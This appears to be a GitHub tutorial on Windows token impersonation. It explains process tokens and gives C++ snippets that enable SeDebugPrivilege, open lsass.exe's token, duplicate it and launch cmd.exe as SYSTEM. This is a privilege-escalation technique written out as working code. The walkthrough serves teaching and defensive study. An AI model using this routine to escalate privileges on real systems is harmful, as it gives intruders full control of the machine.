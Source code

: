 # System Token Impersonation

## Tokens

Each process has its own corresponding [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_EPROCESS) in kernel, it contains all the information about a process, includin it's PID, loaded modules, virtual address space and much more information. Today we will focus on a field which can be found deep down in _EPROCESS, which is the [_TOKEN](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_TOKEN) structures. It contains a token that contains the information about the rights a process has, it tells wether a process runs as user, admin or system. We will now focus on going from admin to system.

## Steps

Before doing anything else, we will need to grant our own process the `SeDebugPrivilege` privilege, it is the highest rights a usermode process can have. We can do so by looking up the `LUID` value corresponding to SeDebugPrivilege by using `LookupPrivilegeValueA`. We can then set the luid of our own token to it and call `AdjustTokenPrivileges` to apply the new token to ourselves :

```cpp
bool enable_debug_priv(HANDLE hToken)
{
	TOKEN_PRIVILEGES token_priv;
	LUID luid;

	if (!LookupPrivilegeValueA(0, "SeDebugPrivilege", &luid))
		return false;

	token_priv.PrivilegeCount = 1;
	token_priv.Privileges[0].Luid = luid;
	token_priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	if (AdjustTokenPrivileges(hToken, FALSE, &token_priv, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)0, (PDWORD)0))
		return true;
	else
		return false;
}
```
\
Our target process needs to have system rights, we will need to open a handle to it, and to it's token. Of course, we can't do these to the system process with pid 4. However we can do it on other processes that have the required rigths such as `winloging.exe` or `lsass.exe`. Here is the general idea :

![image](https://media.discordapp.net/attachments/780153367305256981/1019982190114766929/unknown.png?width=593&height=605)
\

In this example we first open a handle to lsass with the most limited information possible which are PROCESS_QUERY_INFORMATION. We can then open a handle to the token of that process using `OpenProcessToken` with flags, the main one being TOKEN_DUPLICATE which we will need later. We then call `ImpersonateLoggedOnUser` which is needed for token impersonation. So far we have this :

```cpp
OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, PID);
OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken);
ImpersonateLoggedOnUser(hToken);
```


Now for the most intereseting part, we will use `DuplicateTokenEx` to, as the name suggests, duplicate the token of the target process and store it: 

```cpp
DuplicateTokenEx(hToken, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY |
    TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, 0, SecurityImpersonation, TokenPrimary, &hDupToken);
```

We can then use the `CreateProcessWithTokenW` (no ANSI version 👎) to spawn a process, and specify the token that it wll have when created. We wll supplu the token we duplcated earlier : 

```cpp
CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", 0, 0, 0, 0, 
    (LPSTARTUPINFOW)&startup_info, &process_info);
```

## Showcase

![image](https://cdn.discordapp.com/attachments/780153367305256981/1020005729031180411/demo_token.gif)
